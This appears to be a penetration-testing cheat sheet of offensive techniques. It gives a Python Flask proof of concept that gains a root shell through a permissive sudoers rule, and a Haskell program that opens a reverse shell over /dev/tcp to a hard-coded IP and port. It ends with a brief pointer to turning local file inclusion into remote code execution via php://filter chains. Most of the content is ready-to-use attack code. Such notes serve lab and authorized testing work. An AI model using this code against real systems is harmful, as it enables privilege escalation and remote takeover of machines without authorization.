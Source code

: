 ### Abusing suid flask

- Sudoers rule

![image](https://github.com/user-attachments/assets/5402e95f-60ca-4b2d-a2b3-a5d200399287)
 
- Poc code
  
            import os
            from flask import Flask,render_template_string
            
            app = Flask(__name__)
            os.setuid(0)
            os.setgid(0)
            os.system("bash -p")
            
            @app.route("/")
            def index():
                return render_template_string("Life tuff ooo!!!!")
            
            if __name__ == "__main__":
               app.run(port=8080,debug=True)

- Set the environmetal variables

      export FLASK_APP=app.py
      export FLASK_ENV=development

- Run
       sudo -u root /usr/bin/flask run

- Root

![image](https://github.com/user-attachments/assets/34e3c7a7-03b6-4b1b-b857-bdb93143c5e9)

---------------------------

### Executing Shell Commands with Haskell code

- Save as run.hs

      import System.Process
      
      main = callCommand "bash -c 'bash -i 5<> /dev/tcp/10.8.158.229/1337 0<&5 1>&5 2>&5'"

---------------------------

### REFERENCES:

- [Stack Overflow](https://stackoverflow.com/questions/3470955/executing-a-system-command-in-haskell)

---------------------------

### LFI2RCE with php://filter/

- Characters can be injected via php://temp/ filter
- Generate php code with this [script](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)
  